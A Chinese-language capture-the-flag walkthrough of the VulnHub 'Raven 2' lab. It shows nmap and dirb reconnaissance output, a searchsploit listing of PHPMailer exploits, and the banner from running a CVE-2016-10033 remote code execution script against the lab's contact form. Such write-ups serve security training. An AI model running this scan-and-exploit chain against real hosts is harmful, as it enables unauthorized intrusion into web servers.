




# Raven 2

> https://download.vulnhub.com/raven/Raven2.ova

靶场IP：`192.168.32.208`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.208                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 22:55 EDT
Nmap scan report for 192.168.32.208
Host is up (0.00085s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
53818/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:F2:53:5B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
```

访问80端口


爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.208/      

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep  6 22:56:41 2022
URL_BASE: http://192.168.32.208/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.208/ ----
==> DIRECTORY: http://192.168.32.208/css/                                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.208/fonts/                                                                                                                                                                                                 
==> DIRECTORY: http://192.168.32.208/img/                                                                                                                                                                                                   
+ http://192.168.32.208/index.html (CODE:200|SIZE:16819)                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.208/js/                                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.208/manual/                                                                                                                                                                                                
+ http://192.168.32.208/server-status (CODE:403|SIZE:302)                                                                                                                                                                                   
==> DIRECTORY: http://192.168.32.208/vendor/                                                                                                                                                                                                
==> DIRECTORY: http://192.168.32.208/wordpress/                                                                                                                                                                                             
                                                  
```

点击目录，发现这个文件夹存在目录遍历问题和这个源码是`phpmailer`



cms版本



找到一个flag



搜索漏洞

```
┌──(root💀kali)-[/tmp]
└─# searchsploit phpmailer 5.2.16
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHPMailer < 5.2.18 - Remote Code Execution                                                                                                                                                                 | php/webapps/40968.sh
PHPMailer < 5.2.18 - Remote Code Execution                                                                                                                                                                 | php/webapps/40970.php
PHPMailer < 5.2.18 - Remote Code Execution                                                                                                                                                                 | php/webapps/40974.py
PHPMailer < 5.2.19 - Sendmail Argument Injection (Metasploit)                                                                                                                                              | multiple/webapps/41688.rb
PHPMailer < 5.2.20 - Remote Code Execution                                                                                                                                                                 | php/webapps/40969.py
PHPMailer < 5.2.20 / SwiftMailer < 5.4.5-DEV / Zend Framework / zend-mail < 2.4.11 - 'AIO' 'PwnScriptum' Remote Code Execution                                                                             | php/webapps/40986.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                                                                                                                                   | php/webapps/42221.py
PHPMailer < 5.2.21 - Local File Disclosure                                                                                                                                                                 | php/webapps/43056.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

使用`php/webapps/40974.py`

修改攻击机和靶场IP



```
 █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ 
██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗
███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝
██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗
██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║
╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝
      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com
 Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski

[+] SeNdiNG eVIl SHeLL To TaRGeT....
[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D
[+]  ExPLoITeD http://192.168.32.208/contact.php
```
